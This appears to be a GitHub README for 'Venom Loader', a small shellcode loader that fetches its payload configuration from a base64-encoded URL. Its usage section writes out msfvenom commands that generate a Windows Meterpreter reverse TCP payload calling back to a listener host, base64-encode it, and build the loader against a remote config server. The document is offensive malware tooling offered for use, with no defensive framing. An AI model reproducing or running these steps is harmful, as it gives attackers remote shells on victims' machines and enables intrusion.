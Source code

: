 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
./builder.sh <http://IP/config> main.go
```
At this point the loader as well as a basic payload should be ready. Modify the main.go and instr file to suit your situation.
Keep in mind that the config is a json file that should be located in the same dir as the http server.
## To-Do

- Make a builder that automates creation of msf payload and base64 encoding it.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
